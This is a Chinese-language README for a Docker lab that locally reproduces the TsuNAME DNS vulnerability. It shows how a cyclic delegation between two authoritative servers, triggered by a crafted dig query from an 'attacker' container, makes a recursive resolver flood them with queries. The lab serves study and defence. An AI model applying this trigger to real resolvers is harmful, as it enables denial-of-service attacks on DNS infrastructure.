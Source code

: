 # TsuNAME 漏洞复现环境

## 说明
本仓库用于Docker环境本地复现 **TsuNAME** 漏洞。


## 环境搭建
```shell
docker compose up --build
```

## 实验复现
实验的核心是向递归解析器查询一个处于循环依赖链中的域名，并观察其对权威服务器造成的影响。

### 监控权威服务器流量
为了观察攻击效果，我们需要在陷入循环的两个权威服务器（`auth2` 和 `auth3`）上运行一个流量监控脚本。请打开两个新的终端窗口。

在 **第一个终端** 中，启动 `auth2` (`a.com` 服务器) 的监控脚本：
```shell
docker compose exec auth2 python3 /count.py
```
你将看到如下输出，此时数据包计数为 0：
```
[*] Starting DNS packet counter on interface 'eth0'...
[*] Listening for incoming DNS queries on UDP port 53.
[*] Press Ctrl+C to stop and see the final count.
```

在 **第二个终端** 中，启动 `auth3` (`b.com` 服务器) 的监控脚本：
```shell
docker compose exec auth3 python3 /count.py
```

### 触发
现在，我们从 `attacker` 容器向递归解析器 `recursor` 发送一个特制的 DNS 查询，以触发解析循环。

在 **第三个终端** 中执行以下命令：
```shell
docker compose exec attacker dig @recursor ns.sub.a.com
```
这个命令会请求解析 `ns.sub.a.com`。由于 `a.com` 和 `b.com` 权威服务器之间存在循环委托，`recursor` 将陷入无限查询循环，因此该 `dig` 命令会一直等待直到超时，这是预期行为。

### 结果
切换回你之前打开的用于监控 `auth2` 和 `auth3` 的两个终端。

你会看到两个终端中的数据包计数器增长，这表明 `recursor` 正在向这两个权威服务器发送 DNS 查询请求。

**`auth2` 或 `auth3` 终端中的输出示例：**
```
Packets received: 59
```
这证明递归解析器已被成功利用，并正在向权威服务器发起 DoS 攻击，大量消耗其网络和计算资源。按下 `Ctrl+C` 可以停止监控并查看最终的数据包统计。
